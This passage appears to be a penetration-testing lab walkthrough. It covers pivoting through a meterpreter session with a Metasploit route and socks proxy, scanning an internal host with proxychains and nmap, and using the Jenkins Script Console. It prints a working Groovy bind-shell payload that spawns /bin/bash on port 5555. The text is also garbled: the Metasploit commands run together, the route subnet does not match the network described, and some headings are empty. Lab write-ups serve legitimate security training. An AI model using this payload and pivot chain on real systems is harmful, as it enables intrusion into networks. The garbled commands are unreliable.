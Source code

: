 So we have discovered a new interface and a new network.

Now since we have access to the first target machine, we can easily access the second machine. But if there is some webapp running on that second machine, we can't access it directly, unless we have a proxy setup to relay the request via the compromised target. Background the meterpreter session and check the meterpreter session identifier:

Now add a route to the network accessible only via the first target machine at `online-calc.com` . `route add 192.141.77.0/24 1` The last argument to the above command is the identifier of the meterpreter shell session.

Now let's use the `socks_proxy` auxiliary module to convert the meterpreter session to serve as a socks proxy:

```
use auxiliary/server/socks_proxyset VERSION 4aset SRVPORT 9050run -j
```

After the above commands, a socks proxy server (having version 4a) would be started on port 9050. It would be started as a background process (since we used the -j flag). Now anything we sent over port 9050 would be sent over to the network we added to the route (that is, `192.129.183.0/24`).

Now, we can scan the second target machine using the proxychains tool. We will use proxychains to do the job. By default, proxychains makes use of port `9050` and that's the reason we configured the socks proxy server to listen on that port.

`proxychains nmap -sT -P0 192.129.183.3` The above command would scan the second target machine using nmap. Since it's not directly reachable we have used proxychains tool, which would make use of the proxy server we started, using the meterpreter session to the compromised target machine (at online-calc.com).

So we can also use `proxychains nmap -Pn -sV -sC -p8080 192.129.183.3`

Cause there is an open port in `8080`, we need to investigate the web.

### Socks proxy with the browser[​](broken-reference) <a href="#socks-proxy-with-the-browser" id="socks-proxy-with-the-browser"></a>

### Jenkins[​](broken-reference) <a href="#jenkins" id="jenkins"></a>

Scroll down on Manage Jenkins page, click on Script Console section. That should open the Groovy Script console:

Here we can execute arbitrary scripts and get a shell session! But since we are connected to the Jenkins instance over the socks proxy, we need to start a bind shell on that server and connect to it. The reverse shell won't work since that machine (on which Jenkins is running) doesn't know how to reach back to the Kali instance (which is located in a different network).

Groovy bind shell payload:

```
int port=5555;String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()Socket s = new java.net.ServerSocket(port).accept()InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
